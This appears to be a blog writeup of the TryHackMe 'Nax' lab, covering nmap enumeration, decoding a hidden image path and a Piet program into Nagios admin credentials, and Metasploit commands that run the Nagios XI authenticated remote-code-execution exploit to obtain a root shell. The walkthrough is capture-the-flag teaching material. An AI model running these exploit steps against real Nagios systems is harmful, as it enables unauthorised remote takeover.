 ```yaml
---
layout: post
title: THM Nax writeup
date: 2022-06-18T19:22:24.527Z
---
```

After lunching the vm i started doing some enumeration, port scanning and fuzzing

```
# Nmap 7.80 scan initiated Sun Jun 19 16:46:08 2022 as: nmap -sC -sV -oN nmap/results -v nax.thm
Nmap scan report for nax.thm (10.10.55.121)
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| tls-alpn: 
|_  http/1.1
```

i found 5 ports open, but the only interesting one here is port 80 which is the webserver, i also did some fuzzing with gobuster but it didn't find actually something useful and so i looked at the website itself

![](/src/images/uploads/9s.png)

nothing interesting except those periodic table elements where if you get the atomic values of each element you will get this

```
47 80 73 51 84 46 80 78 103
```

which looks like ascii values and by using an online converter from ascii to text you will get `/PI3T.PNg` which is the answer for the sercret file 

by opening that image you will get this 

![](/src/images/uploads/9d.png)

download that image and check its exif data 

```
exiftool PI3T.PNg
```

and here you will find the owner of the image

looking at the image it looks like piet programming language which decoded can show probably interesting information

i installed [npiet](https://www.bertnase.de/npiet/) and then ran 

```
./npiet PI3T.ppm -e 1000
```

which gives `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` probably user and password

after doing a small reserach i found this interesting [exploit](https://www.exploit-db.com/exploits/48191) which requires user and password that we have, then start metasploit

```
msfconsole
```

```
Msf6> use exploit/linux/http/nagios_xi_authenticated_rce
Msf6> options
Msf6> set PASSWORD n3p3UQ&9BjLp4$7uhWdY
Msf6> set USERNAME nagiosadmin
Msf6> set RHOSTS nax.thm
Msf6> set LHOSTS YOUR_IP
Msf6> run
```

and after running the exploit you will get a root shell where you can get both the flags